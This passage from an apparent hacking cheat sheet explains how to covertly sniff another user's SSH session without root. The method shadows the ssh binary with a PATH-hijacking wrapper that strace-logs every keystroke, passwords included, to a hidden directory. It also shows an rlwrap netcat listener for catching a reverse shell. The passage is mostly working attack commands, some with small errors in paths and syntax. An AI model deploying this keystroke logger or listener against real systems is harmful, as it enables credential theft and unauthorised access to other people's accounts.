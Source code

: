 <a id="ssswor-anchor"></a>
**9.ii. Sniff a user's SSH session without root priviledges**

Even dirtier way in case */proc/sys/kernel/yama/ptrace_scope* is set to 1 (strace will fail on already running SSH clients unless uid=0)

Create a wrapper script called 'ssh' that executes strace + ssh to log the session:
```
# Add a local path to the PATH variable so our 'ssh' is executed instead of the real ssh:
$ echo '$PATH=~/.local/bin:$PATH' >>~/.profile

# Create a log directory and our own ssh binary
$ mkdir -p ~/.local/bin ~/.ssh/logs

$ cat >~/.local/bin/ssh
#! /bin/bash
strace -e trace=read -o '! ~/.local/bin/ssh-log $$' /usr/bin/ssh $@
# now press CTRL-d to close the file.

$ cat ~/.local/bin/ssh-log
#! /bin/bash
grep 'read(4' | cut -f2 -d\" | while read -r x; do
        if [ ${#x} -ne 2 ] && [ ${#x} -ne 1 ]; then continue; fi
        if [ x"${x}" == "x\\n" ] || [ x"${x}" == "x\\r" ]; then
                echo ""
        else
                echo -n "${x}"
        fi
done >~/.ssh/.logs/ssh-log-"${1}"-`date +%s`.txt
# now press CTRL-d to close the file

$ chmod 755 ~/.local/bin/ssh ~/.local/bin/ssh-log
```

The SSH session will be sniffed and logged to *~/.ssh/logs/* the next time the user logs into his shell and uses SSH.

<a id="hlc-anchor"></a>
**9.iii. How to survive high latency connections**

Hacking over long latency links or slow links can be frustrating. Every keystroke is transmitted one by one and any typo becomes so much more frustrating and time consuming to undo. *rlwrap* comes to the rescue. It buffers all single keystrokes until *Enter* is hit and then transmits the entire line at once. This makes it so much easier to type at high speed, correct typos, ...

Example for the receiving end of a revese tunnel:
```
$ rlwrap nc -vnlp 1524
```

Example for *SSH*:
```
$ rlwrap ssh user@host
```

---
Shoutz: ADM, Oscar2020
